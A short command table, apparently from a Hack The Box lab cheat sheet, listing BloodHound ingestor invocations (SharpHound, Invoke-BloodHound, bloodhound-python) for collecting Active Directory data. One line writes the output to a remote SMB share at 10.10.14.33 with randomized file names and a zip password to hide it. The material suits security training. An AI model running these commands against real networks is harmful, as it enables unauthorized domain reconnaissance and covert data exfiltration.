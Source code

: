 | Command                                                                                                                            | Description                            |
| ---------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------- |
| `.\SharpHound.exe -c all --zipfilename inlanefreight_bloodhound`                                                                   | Run the SharpHound C# ingestor         |
| `.\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames` | Randomize and hide SharpHound Output   |
| `Invoke-BloodHound -CollectionMethod all -ZipFileName ilfreight_bloodhound`                                                        | Run the SharpHound PowerShell ingestor |
| `bloodhound-python -dc <DC> -gc <GC> -d <DOMAIN -c All -u <user>`                                                                  | Run bloodhound-python                  |
